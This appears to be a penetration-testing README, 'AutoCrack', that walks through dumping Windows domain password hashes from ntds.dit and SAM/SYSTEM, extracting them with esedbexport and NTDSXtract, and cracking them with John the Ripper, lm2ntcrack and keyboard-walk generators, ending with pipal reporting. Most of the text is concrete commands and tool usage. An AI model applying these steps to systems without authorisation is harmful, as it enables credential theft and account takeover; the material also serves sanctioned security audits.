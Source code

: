 AutoCrack
=========

______
STEP 1

local_domain_enum...

______
STEP 2

Get hahses "SAM/SYSTEM, ntds.dit/SYSTEM, hashdump, unshadow, type-7, ios-config, etc..."

______
STEP 3

Extract Hashes and Format from various sources...

ntds.dit/SYSTEM
	1. libesedb-20120102
https://github.com/libyal/libesedb/wiki/Building
~/tools/ntds.dit/libesedb-20120102/esedbtools
./esedbexport ntds.dit

	2. NTDSXtract_1.0
		a. dshashes.py
wget http://ptscripts.googlecode.com/svn/trunk/dshashes.py

python dsusers.py <DATATABLE FILE><LINKTABLE FILES><DIRECTORY TO WORK IN>–passwordhashes –lmoutfile <LM OUT FILE> –ntoutfile <NTLM OUT FILE> –pwdformat john –syshive <SYSTEM FILE>

sudo pip install pycrypto

Replace blank lm hashes
sed 's/aad3b435b51404eeaad3b435b51404ee/**********NO_PASSWORD!**********/'

_______
STEP 4

Crack Passwords...

JtR
	1. wordlists
		rockyou.txt -rules
		wordlist.txt -rules
	2. LM2NT
		JtR
http://www.openwall.com/lists/john-users/2006/07/08/2

This post explains how to crack NT hash from LM password with john-the-ripper (need to modify john's configuration file to use [List.Rules:NT] se
ction).
        john -show pwfile | cut -d: -f2 > cracked
        john -w=cracked -rules -format=nt pwfile
        john -show -format=nt pwfile

One known problem with this approach is that it'll fail for passwords containing colons (':' is cut delimiter).

This problem does not impact "lm2ntcrack".

		lm2ntcrack.rb - MSF
/usr/share/metasploit-framework/tools# ./lm2ntcrack.rb -h

Usage: ./lm2ntcrack.rb -t type <options>

OPTIONS:

    -a <opt>  The hash to crack
    -c <opt>  The LM/NTLM Client Challenge (NETNTLM2_SESSION/NETLMv2/NETNTLMv2/ type only)
    -d <opt>  The domain (machine) name    (NETLMv2/NETNTLMv2 type only)
    -h        Display this help information
    -l <opt>  The list of password to check against an hash
    -p <opt>  The password 
    -s <opt>  The LM/NTLM Server Challenge (NET* type only)
    -t <opt>  The type of hash to crack : HALFLM/LM/NTLM/HALFNETLMv1/NETLMv1/NETNTLMv1/NETNTLM2_SESSION/NETLMv2/NETNTLMv2
    -u <opt>  The user name                (NETLMv2/NETNTLMv2 type only)

This tool can be use in 3 ways whatever type is choosen
-If only a password (-p) is provided, it will display the hash.
-If a password (-p) and an hash (-a) is provided, it will test the password against the hash.
-If a list of password (-l) is provided and an hash (-a), it will try to bruteforce the hash 

perl /root/Desktop/NTDS/lm2ntcrack/lm2ntcrack.pl -l="AZERTY123$" -p | grep -e DICO | cut -d " " -f 2 > /root/Desktop/NTDS/wordlist_LM_AZERTY123$.txt



		LM2NTCRACK - NEW
wget http://www.atenlabs.com/lm2ntcrack-viss.txt
mv lm2ntcrack-viss.txt lm2ntcrack-viss.pl

Usage: lm2ntcrack-viss.pl [ -v | -q ] [ -h ] [ -p ] < -l=Clear_LM_Password -n=MY_NT_HASH > | < -f=MY_JOHN_OUTPUT_FILE >
                -h, --help                                              : This (help) message
                -v, --verbose                                           : Verbose output (Optionnal)
                -q, --quiet                                             : No output debug (Optionnal)
                -p, --print                                             : Print generated DICO from LM PASSWORD (Optionnal)
                -f=file, --file=file                                    : Full path to "John the ripper" output file (cmd: john --show dumpfile > <file>)
                -n=hash, --nthash=hash                                  : NT hash to CRACK (Mandatory with -l option)
                -l=Clear_Text_LM_Pwd, --lmpass=Clear_Text_LM_Pwd        : Cracked LM password

Example 1: perl lm2ntcrack-viss.pl -v -f="<JOHN-THE-RIPPER OUTPUT FILE>"

Example 2: john --format=LM --show myDump > ./crackedLM && perl lm2ntcrack-viss.pl -q -f=./crackedLM

Example 3: perl lm2ntcrack-viss.pl -v -l="AZERTY123$" -n="81CD1A1C4CBCE05C0F8D411ACEC7587F"

Example 4: perl lm2ntcrack-viss.pl -v -l="AZERTY123$" -p

john 2012_john_dshashes_sans_blank_lm.txt --show --format=lm > 2012_cracked_lm.txt && perl ./lm2ntcrack/lm2ntcrack-viss.pl -f=2012_cracked_lm.txt


 		LM2NTCRACK - OLD "Works with 2009 ver JtR"
wget http://www.xmco.fr/lm2ntcrack/lm2ntcrack-current.tgz
tar -zxvf lm2ntcrack-current.tgz

	3. Keyboardwalk
https://source/redteam/penetration-testing-scripts/blob/master/password_cracking/keywalk-gen.pl

perl /pentest/penetration-testing-scripts/password_cracking/keywalk-gen.pl -h
Keywalk-gen.pl v1.0 by d3ad0ne 
Syntax: keywalk-gen.pl [1-5] [1-6] 
Argument 1 selects charset to use, argument 2 selects amount of combinations of charset 

	 Charset 1 = Full    3 character set, 120 elements, 15 character passwords - 120^5 = 24,883,200,000 combinations 
	 Charset 2 = Small   4 character set,  20 elements, 24 character passwords -  20^6 =     64,000,000 combinations 
	 Charset 3 = Medium  4 character set,  76 elements, 20 character passwords -  76^5 =  2,535,525,376 combinations 
	 Charset 4 = Large   4 character set, 193 elements, 16 character passwords - 193^4 =  1,387,488,001 combinations 
	 Charset 5 = X-large 4 character set, 229 elements, 16 character passwords - 229^4 =  2,750,058,481 combinations 

_______
STEP 5

No Rest for the Wicked...Consolidate and Run Again!
STEPs 3-5
_______
STEP 6
Analyze and Present the Data. 

Now we need to provide highlights of the data. We use a tool called pipal. This is a ruby script that takes an input file of the cracked passwords and returns useful metrics that can be incorporated into reports or presentations very easily.

Get pipal.
git clone https://github.com/digininja/pipal

cd pipal && ruby pipal.rb demo_pipal_in.txt >> pipal_out.txt

_______
STEP NEXT

Test	"john pwdump.txt -format=nt -loopback=john.pot -rules=nt"
